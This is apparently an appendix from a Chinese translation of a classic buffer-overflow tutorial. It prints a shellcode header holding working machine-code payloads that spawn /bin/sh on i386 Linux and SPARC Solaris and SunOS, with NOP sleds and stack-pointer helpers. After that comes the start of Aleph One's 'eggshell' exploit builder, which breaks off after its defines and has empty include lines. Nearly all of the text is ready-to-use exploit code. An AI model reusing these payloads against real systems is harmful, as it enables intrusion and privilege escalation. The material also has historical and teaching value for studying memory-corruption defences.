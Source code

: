 ## 附录 B - 通用缓冲区溢出程序

shellcode.h

```
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE 1
char nop[] = "\x90";
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE 4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
    "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
    "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
    "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
    "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
    __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE 4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
    "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
    "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
    "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
    "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
    __asm__("or %sp, %sp, %i0");
}

#endif
```

eggshell.c

```
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include
#include
#include "shellcode.h"

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_EGG_SIZE 2048

```